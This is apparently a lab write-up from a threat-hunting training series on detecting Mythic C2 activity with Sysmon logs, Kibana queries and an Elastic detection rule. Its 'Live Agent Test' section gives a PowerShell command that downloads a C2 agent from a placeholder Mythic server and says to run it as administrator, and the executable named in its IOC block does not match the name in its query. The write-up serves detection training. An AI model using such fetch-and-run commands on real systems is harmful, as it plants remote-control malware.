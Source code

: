 <nav>
  <h3>📚 Table of Contents</h3>
  <ul>
    <li><a href="#objective">Objective</a></li>
    <li><a href="#cheat-method">Known IOC Investigation (Cheat Method)</a></li>
    <li><a href="#generic-discovery">Unknown C2 Discovery (Generic Threat Hunting)</a></li>
    <li><a href="#timeline">Timeline Building</a></li>
    <li><a href="#detection">Detection Rule Setup</a></li>
    <li><a href="#correlation">Correlation Fields</a></li>
    <li><a href="#live-test">Live Agent Test</a></li>
    <li><a href="#outcome">Outcome</a></li>
  </ul>
</nav>

<h2 id="objective">🕵️‍♂️ Day 28: Mythic C2 Threat Hunting - Investigating Command and Control</h2>

<h3>✅ Objective:</h3>
<p>Investigate activity related to the <strong>Mythic C2 framework</strong> using Sysmon logs via Kibana Discover and Dashboards.</p>

<hr>

<h3 id="cheat-method">🔍 Step-by-Step Threat Hunting Approach</h3>

<h4>1. Known IOC Investigation (Cheat Method)</h4>
<pre>
Filename: servicehost-dstepenrocks.exe
Location: C:\Users\Public\Downloads\
</pre>
<ul>
  <li>Go to <strong>Discover</strong> in Kibana</li>
  <li>Set time to <code>Last 30 days</code></li>
  <li>Query: <code>winlog.event_data.Image: "svchost-dvlncl.exe"</code></li>
  <li>Sort timestamp from <strong>old to new</strong></li>
  <li>Review full process chain</li>
</ul>

<h4 id="generic-discovery">2. Unknown C2 Discovery (Generic Threat Hunting)</h4>

<h5>A. Network Behavior (Sysmon Event ID 3)</h5>
<pre>
event.code: "3" AND NOT winlog.event_data.Image: "MsMpEng.exe"
</pre>
<ul>
  <li>Identify unusual outbound ports (e.g., 9999, 80)</li>
  <li>Check image path of calling processes (e.g., Downloads folder)</li>
  <li>Flag processes like <code>powershell.exe</code>, <code>rundll32.exe</code>, or <code>cmd.exe</code></li>
</ul>

<h5>B. Process Creation (Sysmon Event ID 1)</h5>
<pre>
event.code: "1" AND winlog.event_data.Image.keyword : "*rundll32.exe" OR "*powershell.exe" OR "*cmd.exe"
</pre>

<hr>

<h3 id="timeline">📌 Timeline Building</h3>
<p>Pivot across event types using <code>ProcessGuid</code>:</p>

<table border="1" cellpadding="6">
  <tr>
    <th>Event Type</th>
    <th>Description</th>
  </tr>
  <tr>
    <td>File Created (11)</td>
    <td><code>C:\Users\...\Downloads\servicehost-*.exe</code></td>
  </tr>
  <tr>
    <td>Executable Detected (29)</td>
    <td>Confirms PE file creation</td>
  </tr>
  <tr>
    <td>Process Created (1)</td>
    <td>Execution of the C2 agent</td>
  </tr>
  <tr>
    <td>Network Connection (3)</td>
    <td>Outbound to <code><your mythic server ip>:9999</code></td>
  </tr>
</table>

<hr>

<h3 id="detection">🛠️ Detection Rule Setup (Elastic Security)</h3>
<ul>
  <li>Update rule schedule to <strong>every 1 minute</strong></li>
  <li>Action: Send webhook to OS Ticket</li>
  <li>Enable highlighted fields:
    <ul>
      <li><code>winlog.event_data.Image</code></li>
      <li><code>destination.ip</code></li>
      <li><code>destination.port</code></li>
    </ul>
  </li>
</ul>

<hr>

<h3 id="correlation">💡 Correlation Fields to Use</h3>
<ul>
  <li><code>winlog.event_data.ProcessGuid</code></li>
  <li><code>winlog.event_data.ParentImage</code></li>
  <li><code>winlog.event_data.DestinationIp</code></li>
  <li><code>winlog.event_data.CommandLine</code></li>
</ul>

<hr>

<h3 id="live-test">🧪 Live Agent Test</h3>
<ol>
  <li>Download payload:
    <pre>powershell -Command "Invoke-WebRequest -Uri http://<your mythic server ip>:9999/mydfir-d30.exe -OutFile C:\Users\Public\Downloads\mydfir-d30.exe"</pre>
  </li>
  <li>Run as administrator</li>
  <li>Verify Mythic callback</li>
  <li>Check Kibana Discover for file create, process create, and network connection logs</li>
</ol>

<hr>

<h3 id="outcome">🎯 Outcome</h3>
<ul>
  <li>Confirmed Mythic C2 activity via Sysmon logs</li>
  <li>Auto-generated alert linked to OS Ticket</li>
  <li>Manual investigation validated C2 execution chain</li>
</ul>

<p><em>Continue building dashboards and rules to cover additional attack vectors like Atomic Red Team or Caldera.</em></p>
